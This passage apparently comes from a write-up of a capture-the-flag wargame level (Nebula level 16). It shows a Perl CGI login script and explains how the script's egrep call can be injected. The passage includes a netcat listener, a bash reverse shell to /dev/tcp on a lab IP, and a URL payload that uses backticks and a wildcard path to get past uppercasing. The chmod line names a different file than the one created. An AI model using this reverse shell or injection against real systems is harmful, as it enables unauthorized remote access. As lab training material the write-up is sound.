     if($pw =~ $password) { 
      return 1;
    }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
    print("Your login was accepted<br/>");
  } else {
    print("Your login failed<br/>");
  }  
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
{% endhighlight %}

So quickly looking at the script we know that we need to pass `username` and `password` in as URL parameters. It then does some uppercase conversion of the username, strips the whitespace and greps for the username in a file called `userdb.txt`. Taking a look at this file we notice it's empty, so we need a different exploit. The obvious place here is the `egrep` call as it accepts our username. But we need to do some twiddling in order to get it working with the uppercase and whitespace strip.

One idea is to use bash's feature that allows us to run a command with a wildcard in the path. For example you can run `/bin/ls` with `/*/ls` instead. This 
gets us around the uppercase limitation as we can create an uppercase command
at a path we can write to. I've chosen `/tmp` as my target.
I'm going to create a reverse shell to a listening port. First off I login to level16 again (or somewhere else on the network) and run

{% highlight console %}
level16@nebula:~$ nc -l 1337
{% endhighlight %}

To create a netcat listener on port *1337*

Next I construct the payload for the script

{% highlight console %}
level16@nebula:/home/flag16$ cat /tmp/RSHELL
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.101/1337 0>&1
level16@nebula:/home/flag16$ chmod +x /tmp/SHELL
{% endhighlight %}

Note the uppercase filename, this is important as our username gets uppercased. The command in the script is a standard bash reverse shell. Now we pass the wildcard script path to the Perl script with backticks so it gets evaluated.

{% highlight console %}
http://192.168.56.101:1616/index.cgi?username=%60/*/RSHELL%60&password=test2
{% endhighlight %}
